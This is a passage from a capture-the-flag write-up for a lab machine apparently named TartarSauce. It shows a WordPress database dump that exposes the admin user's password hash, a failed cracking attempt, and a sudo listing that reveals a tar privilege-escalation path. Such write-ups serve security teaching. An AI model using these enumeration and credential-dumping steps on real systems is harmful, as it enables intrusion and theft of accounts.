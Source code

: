 ```
Database changed
mysql> show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
mysql> \q
Bye
```

Revealed hash is _NOT_ crackable using _john_ and _rockyou.txt_ word list.

### shell as _onuma_ and user.txt

Next checking sudo rules
```
www-data@TartarSauce:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```
